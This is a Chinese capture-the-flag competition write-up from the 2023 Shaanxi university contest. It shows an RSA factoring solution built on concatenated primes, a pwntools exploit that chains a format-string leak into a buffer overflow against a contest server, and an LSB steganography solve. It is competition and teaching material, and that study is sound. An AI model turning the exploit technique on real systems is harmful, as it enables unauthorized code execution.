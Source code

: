 #  2023年第三届陕西省大学生网络安全技能大赛——本科高校组WriteUp

???+ abstract

    战队名称：**水狗献花拜佛队战队**

    队伍排名：第**123**名

    ![image-20230603160641535](./assets/image-20230603160641535.png){: .zoom}

## 解题思路

### Crypto

#### **HaM3**

1. 题目

    ```python
    from Crypto.Util.number import *
    from secret import flag

    p, q = getPrime(64), getPrime(64)
    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    assert isPrime(PP) and isPrime(QQ)
    n = PP * QQ
    m = bytes_to_long(flag)
    c = pow(m, 65537, n)
    print('n =', n)
    print('c =', c)
    '''
    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    '''
    ```

2. 题目分析

    在生成 $p$ , $q$ 的时候，先生成两个64位的较小素数，然后基于这两个小素数直接连接式组合，得到了大素数，最后乘起来得到了最后的 $n$ 。

    这种直接组合受到了十进制位数的影响的，即生成的素数有是20位十进制数的可能，也有可能是19位十进制数的可能。这样根据排列组合就有三种情况：两个20位十进制数的素数、一个19位，一个20位十进制数的素数，也有可能是两个19位十进制数的素数。

    首先设 $p$ , $q$ 均为 $10^{19}$ ,发现组合后数值比n大，然后设 $p$ , $q$ 均为 $10^{19}−1$ ，发现组合后数值比n小了。所有一个是20位一个是19位。

    设 $p$ 的位数是20，$q$ 的位数是19，则：

    $$
    n=[pqqp]*[qppq]
    $$

    $$
    [pq]=10^*19p+q
    $$

    $$
    [qp]=10^*20q+p
    $$

    $$
    [pqqp]=10^*58p+10^*39q+10^*20q+p
    $$

    $$
    [qppq]=10^*59q+10^*39p+10^*19p+q
    $$

    带入计算得：

    $p^2$ 的系数是 $10 ^{97}+ 10^{77}+ 10^{39}+ 10^{19}$

    $q^2$ 的系数是 $10 ^{98}+ 10^{78}+ 10^{39}+ 10^{20}$

    $p*q$ 的系数是 $10^{117} +10^7{8} +2×10^{59} + 2×10^{58} +10^{39}+1$

    经过分析：在 $10^137$ 往上和 $10^18$ 往下都是只有 $pq$ 的高位和低位，但是 $pq$ 的值的中间一位是不知道的。则：截取 `n - 10 ^ 136 | 10 ^ 136` 和 $n mod 10^{19}$ 就可以得出 $pq$

    即：

    ```python
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    ```

    这样可以得出p*q:

    ```python
    142672086626283587036081295993762052633
    ```

    使用在线工具分解：

    ```python
    p = 9937378783676979077
    q = 14357114660923972229
    ```

    写出解密代码：

    ```python
    from Crypto.Util.number import *

    '''
    n=142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    n-=10**136
    a,b=n//10**136,n%10**19
    print(int(str(a)+str(b)))
    '''

    def decrypt_RSA(c, e, p, q):
        phi = (p - 1) * (q - 1)
        d = inverse(e, phi)
        m = pow(c, d, p * q)
        print(long_to_bytes(m))


    n = 142672086626283587048017713116658568907056287246536918432205313755474498483915485435443731126588499776739329317569276048159601495493064346081295993762052633
    c = 35771468551700967499031290145813826705314774357494021918317304230766070868171631520643911378972522363861624359732252684003796428570328730483253546904382041
    p = 9937378783676979077
    q = 14357114660923972229

    P = int(str(p) + str(q))
    Q = int(str(q) + str(p))
    PP = int(str(P) + str(Q))
    QQ = int(str(Q) + str(P))
    N = PP * QQ
    print(N == n)
    decrypt_RSA(c, 65537, PP, QQ)
    ```

3. 结果

    ![image-20230603160859512](./assets/image-20230603160859512.png)

### PWN

```python title="exp"
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
# p = process('./pwn3')
p = remote("121.196.192.181", 10001)
elf = ELF('./pwn3')
p.recvuntil(b':')
p.sendline(b'2')    #进入格式化字符串漏洞
p.sendlineafter(b'Welcome to Terra_Cotta_Warriors', b'%19$p')
base = int(p.recv(14), 16) - 0x2eb  #得到基址
p_rdi = base + 0x433    #出栈
system = base + 0x29a
ret = base + 0x01a
exit = base + 0x110
payload = b'a' * 0x20 + p64(ret) + p64(system)
p.recvuntil(b'choice :\n')
p.sendline(b'1')    #进入缓冲区溢出漏洞
p.sendlineafter(b"Welcome to Huashan_Mountain", payload)
p.interactive()
```

### Misc

#### 管道

1. 题目
![管道](./assets/%E7%AE%A1%E9%81%93.png)

1. 题目分析

    根据题目利用LSB隐写工具进行爆破

    ![2](./assets/2.jpg)

    ![23](./assets/23.jpg)

    搜寻`flag`关键字

    ![234](./assets/234.jpg)

    得到flag
